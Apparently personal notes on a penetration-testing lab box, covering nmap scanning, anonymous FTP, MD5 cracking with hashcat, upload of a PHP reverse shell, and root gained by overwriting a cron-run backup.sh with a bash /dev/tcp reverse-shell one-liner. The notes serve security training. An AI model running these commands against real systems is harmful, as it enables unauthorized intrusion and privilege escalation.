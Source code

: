 ftp port 21:
version vsftpd 3.0.3
allows anonymous login

ssh port 22
version OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)

http port 80
version  Apache httpd 2.4.38 ((Debian))


80 - 192.168.5.5 - 16:50 14/02/2024
Default Webpage - Apache - PHP



![[Pasted image 20240214104859.png]]

- `sudo netdiscover -r 10.0.2.0/24`
- `nmap -T4 -p- -A 10.0.2.152`  
- port 80 open => try to look at http://10.0.2.152
#### FTP
- port 21 open
- There is a file         [[Notes/TCM/Capstones/Academy/nmap|Look inside nmap scan]]
=>
try to connect as anonymous 
`ftp 10.0.2.152`
`anonymous`
try to get the file -->  `get note.txt`

> [!TIP] This can be intresting:
>- we don't know the file position inside the victim machine
>- HTTP is open =>  always good to check if` http://10.0.2.152/note` exists
>- if exist => we can <span style="color:#00b050">upload</span> a malicious <span style="color:#00b050">file using FTP</span>
>- execute it
	
exit from ftp and `cat note.txt`
![[Pasted image 20240214154532.png]]
- We found a password
- Probably is an hash
- Check what type with tool [[cheet#Hash-identifier|hash-identifier]] 
- `hash-identifier
- `cd73502828457d15655bbd7a63fb0bc8`
- probably is a --> MD5 hash
	- => try to crack hash with [[cheet#hashcat|hashcat]] + [[cheet#Locate|locate]]
	- locate rockyou.txt
	- echo "type here the hash" > hash.txt
	- `hashcat -m 0 Desktop/TCM/ETH/VMe/Academy/hash.txt` `Desktop/TCM/rockyou.txt` 
	- <span style="color:#00b050">We found a password</span> -->  student
	- ![[Pasted image 20240214160424.png]]

Now we have a userid + password 
But we don't know for what it's used
=>
Let's check if it exists a web page where we can enter these credentials
=>
#### Enumerate HTTP
we can use [[cheet#dirb|dirb]] or [[cheet#ffuf|ffuf]]
`ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ_VARIABLE -u http://10.0.2.152/FUZZ_VARIABLE`
=>
<span style="color:#00b050">we found an "academy" path</span>
![[Pasted image 20240214162425.png]]
- go to `http://10.0.2.152/academy `and try to login with the userid + pass
- <span style="color:#00b050">We can login </span>
- there is a form where you can upload an image
- maybe we can also <span style="color:#00b050">upload</span> other files
- for example a <span style="color:#00b050">reverse shell</span> 
- search -->  for php reverse shell
- [Save this script locally](https://github.com/pentestmonkey/php-reverse-shell)
- change the IP in the script to your ip
- use netcat for listening to the port defined inside the script
	 - nc -nvlp 1234
	 - upload the shell in the form
	 - <span style="color:#00b050">we get a shell</span>
	 - ![[Pasted image 20240214163740.png]]
		    it's not priviliged
	=>
	it's time to privilege escalation
##### Privilege escalation
we'll use [[cheet#linpeas|linpeas]] to search any potential privilege escalation
- follow all the steps inside linpeas
- <span style="color:#00b050">we'll find a password</span> -->  My_V3ryS3cur3_P4ss
	- we can cat the file where the password is stored
	- `cat /var/www/html/academy/includes/config.php`
	- ![[Pasted image 20240214171514.png]]
	- <span style="color:#00b050">we find a user grimmie for the password</span>
- try to connect via shh -->  `ssh grimmie@10.0.2.152`
- <span style="color:#00b050">we enter</span>
- we are not root
	  => we need to become root
	![[Pasted image 20240214171831.png]]

- inside there is a backup.sh
- In some ways we can find that this script is executed every minute
	- if we change it so that it executes a shell 
	     =>
	     we have finished
	=>
	- search on google -->  [bash reverse shell one liner](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
	- we find our bash shell -->  `bash -i >& /dev/tcp/10.0.2.15/8080 0>&1`
	- changed the ip to the attacker ip
	- from the attacker machine -->  listen on 8080
							     `nc -nvlp 8080`
	- inside backup.sh delete all and paste --> `bash -i >& /dev/tcp/10.0.2.15/8080 0>&1`
	- Here we are!
	- <span style="color:#00b050">We have root access</span>
	- ![[Pasted image 20240214174016.png]]
